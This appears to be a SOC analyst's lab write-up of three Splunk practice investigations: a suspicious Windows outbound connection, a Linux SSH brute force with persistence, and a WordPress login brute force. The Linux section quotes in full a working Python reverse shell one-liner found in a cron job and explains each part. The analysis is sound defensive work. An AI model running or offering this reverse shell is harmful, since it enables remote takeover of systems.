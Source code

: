 # Log Analysis & Threat Detection with SIEM (Splunk)

## Windows Log Analysis (Practice Scenario)
**Scenario:** I investigated an alert about a suspicious network connection on port 5678 from host WIN-105.
![Windows query filtering to EventCode=3, port 5678, WIN-105](pics/windows-1.png)  
![Expanded Sysmon EventCode=3 with process image and destination](pics/windows-2.png)  

From the query results, the IP address that the connection was established with was 10.10.114.80 (the destinationIP).
Sharepoint.exe was the process that initiated that suspicious connected as the image field with eventcode=3 shows the full path of the process: Image: C:\Windows\Temp\SharePoInt.exe

Since I know the process that initiated this suspicious connection, I can extract the MD5 hash values to fingerprint a malicious binary 

![Hash extraction for SharePoInt.exe](pics/windows-3.png)

**Findings:** EventCode 3 logs revealed outbound traffic initiated by Sharepoint.exe to a remote IP. The process hash was extracted and identified as malicious.
**Recommendations:** restrict execution from temp directories, deploy EDR hash monitoring.

## Linux Log Analysis (Practice Scenario)
**Scenario**
I received an alert indicating possible persistence through the creation of a new remote-SSH user on an Ubuntu server. My task is to investigate the logs in Splunk (index=task5) and determine exactly what occurred.

Time stamp of the remote-ssh account creation: 08/12/25 9:52:57.170 AM (useradd remote-ssh)
![Auth log timeline and sudo/su events around user creation](pics/linux-1.png)  



User Escalating Privileges: jack-brown (successfully escalated to root)
![Zoom on sudo/su session open/close with command context](pics/linux-2.png)  


Now i will use process-sshd to find the ip address of the user who escalated privileges to root (jack brown) and look  for SSHD “Accepted password” logs in auth.log
![Accepted/Failed password events with client IP](pics/linux-3.png)  


The second event shows : sshd[25955]: Accepted password for jack-brown from 10.14.94.82 port 54451 ssh2, showing the source IP to be 10.14.94.82


There were 4 failed login attempts before the successful login, which also list the same source IP (10.14.94.82)
![Filtering sshd events and Accepted/Failed sequences](pics/linux-4.png)

During Linux log analysis, I identified a malicious cron job configured with a Python reverse shell. The code attempted to establish a persistent outbound connection to the attacker at IP 10.10.33.31 on port 7654. This confirmed the persistence mechanism was set to maintain remote access via reverse shell.

**The Splunk query was:**

index=task5 source="syslog" process=CRON

This pulled log entries related to scheduled jobs (cron tasks). Cron is often abused by attackers for persistence because it executes commands at intervals.

The log output contains a suspicious cron job that executes Python one-liners:

python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); 
s.connect(("10.10.33.31",7654)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); 
p=subprocess.call(["/bin/sh","-i"]);'

**Breakdown of python one-liner:**

socket.socket(...) → Creates a network socket.

s.connect(("10.10.33.31",7654)) → Connects to IP 10.10.33.31 on port 7654.

os.dup2(s.fileno(),0/1/2) → Redirects standard input, output, and error to the socket (so the attacker can control the shell remotely).

subprocess.call(["/bin/sh","-i"]) → Spawns an interactive shell.

**Findings**
Remote-SSH Account Creation: 2025-08-12 09:52:57
User Escalating Privileges: jack-brown (successfully escalated to root)
Source IP: 10.14.94.82
Failed Login Attempts Prior to Success: 4
Persistence Mechanism Port: 7654

**Analysis**
This activity demonstrated persistence via creation of a new SSH user, followed by brute-force attempts and successful privilege escalation to root. By correlating login timestamps, user actions, and source IP addresses, I confirmed malicious activity and documented indicators of compromise (IOC).

**Recommendations:** enforce SSH key-based auth, monitor useradd and cron changes.

## Web Log Analysis (Practice Scenario)
**Scenario**
I received an alert about a spike in activity on the organization’s web server. My task was to investigate web logs (index=task6) in Splunk to determine the source, nature, and classification of the activity.
Looking for URI path that had the highest number of requests, path/wp-login.php had the highest, at 905 requests. Since there’s 905 requests, this is likely to be a brute force attack:
![Field discovery showing /wp-login.php dominating requests](pics/weblog-1.png)  


Identified the IP Address that was the source of the activity connected to /wp-login.php as 10.10.243.134 as shown through the clientip as well as the tool the threat actor used via useragent, identified as WPScan :
![Event detail: clientip, referrer, method=POST, useragent=WPScan](pics/weblog-2.png)


**Findings**
URI Path with Highest Requests: /wp-login.php
Source IP Address: 10.10.243.134
Classification: Brute-force attack targeting WordPress login endpoint
Threat Actor Tool: WPScan (identified via user-agent string in the logs)

**Analysis**
This attack represented a credential brute-force attempt against the WordPress login portal. By correlating repeated requests to /wp-login.php from the same source IP and identifying the user-agent string belonging to WPScan, I confirmed the activity as automated brute forcing.

**Response Recommendation**
Implement rate limiting and account lockouts on /wp-login.php.
Deploy Web Application Firewall (WAF) rules to block repeated requests.
Consider multi-factor authentication (MFA) to mitigate credential stuffing attempts.